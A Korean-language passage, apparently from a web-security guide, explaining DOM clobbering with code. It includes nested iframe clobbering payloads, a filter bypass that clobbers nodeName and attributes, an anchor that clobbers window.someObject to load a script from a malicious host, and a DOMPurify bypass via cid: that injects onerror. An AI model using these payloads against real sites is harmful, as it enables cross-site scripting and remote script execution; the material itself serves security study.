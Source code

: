 더 깊은 속성을 클로버링하려면, **html 인코딩이 있는 iframe**을 다음과 같이 사용할 수 있습니다:
```html
<iframe
name="a"
srcdoc="<iframe srcdoc='<iframe name=c srcdoc=<a/id=d&amp;amp;#x20;name=e&amp;amp;#x20;href=\controlled&amp;amp;gt;<a&amp;amp;#x20;id=d&amp;amp;gt; name=d>' name=b>"></iframe>
<style>
@import "https://google.com";
</style>
<script>
alert(a.b.c.d.e) //controlled
</script>
```
### **필터 우회**

필터가 `document.getElementByID('x').attributes`와 같은 것을 사용하여 노드의 **속성**을 **루프**하고 있다면, **`.attributes`** 속성을 **클로버**하여 필터를 **중단**시킬 수 있습니다. **`tagName`**, **`nodeName`** 또는 **`parentNode`**와 같은 다른 DOM 속성들도 **클로버**할 수 있습니다.
```html
<form id="x"></form>
<form id="y">
<input name="nodeName" />
</form>
<script>
console.log(document.getElementById("x").nodeName) //FORM
console.log(document.getElementById("y").nodeName) //[object HTMLInputElement]
</script>
```
## **`window.someObject` 덮어쓰기**

JavaScript에서는 다음과 같은 경우를 자주 찾습니다:
```javascript
var someObject = window.someObject || {}
```
페이지에서 HTML을 조작하면 `someObject`를 DOM 노드로 덮어쓸 수 있어 보안 취약점이 발생할 수 있습니다. 예를 들어, 악성 스크립트를 가리키는 앵커 요소로 `someObject`를 교체할 수 있습니다:
```html
<a id=someObject href=//malicious-website.com/malicious.js></a>
```
취약한 코드 예시:
```html
<script>
window.onload = function () {
let someObject = window.someObject || {}
let script = document.createElement("script")
script.src = someObject.url
document.body.appendChild(script)
}
</script>
```
이 방법은 스크립트 소스를 이용하여 원치 않는 코드를 실행합니다.

**트릭**: **`DOMPurify`**는 **`cid:`** 프로토콜을 사용하도록 허용하며, 이는 **이중 따옴표를 URL 인코딩하지 않습니다**. 이는 **런타임에 디코딩될 인코딩된 이중 따옴표를 주입할 수 있음을 의미합니다**. 따라서 **`<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`**와 같은 것을 주입하면 HTML 인코딩된 `&quot;`가 **런타임에 디코딩**되어 **속성 값에서 탈출**하여 **`onerror`** 이벤트를 **생성**합니다.
